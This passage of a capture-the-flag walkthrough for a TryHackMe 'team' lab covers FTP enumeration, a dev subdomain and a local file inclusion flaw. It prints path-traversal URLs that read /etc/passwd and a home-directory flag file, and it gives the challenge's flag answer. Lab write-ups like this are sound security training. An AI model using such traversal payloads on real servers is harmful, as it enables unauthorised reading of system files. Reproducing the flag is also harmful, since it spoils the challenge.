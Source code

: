
## FTP Access

Now let’s login to the FTP server. After looking around we get a file and it reads:

```
Dale
I have started coding a new website in PHP for the team to use, this is currently under development. It can be found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevant config file.

Gyles
```

Then we go and check `/robots.txt`. We see just a single word called `dale`.

Going back we see that we have a `dev` subdomain and when we add that to `/etc/hosts`, going to that site we see this:

<img width="1859" height="968" alt="Screenshot From 2025-09-02 19-31-55" src="https://github.com/user-attachments/assets/1ea5b930-3fca-4aa6-b2d9-eb59a430e8ee" />

---

## LFI Exploit

Clicking on the link we get another white page with *Place holder for future team share*, but notice above the URL is:

```
http://dev.team.thm/script.php?page=teamshare.php
```

So we can possibly exploit that.

Running:

```
http://dev.team.thm/script.php?page=../../../../etc/passwd
```

We get these users:

* dale
* gyles
* ftpuser
* ubuntu

Which means we can access files within the server. Trying:

```
http://dev.team.thm/script.php?page=/home/dale/user.txt
```

We get the first flag:

> Q1: User flag?
> A1: THM{6Y0TXHz7c2d}

---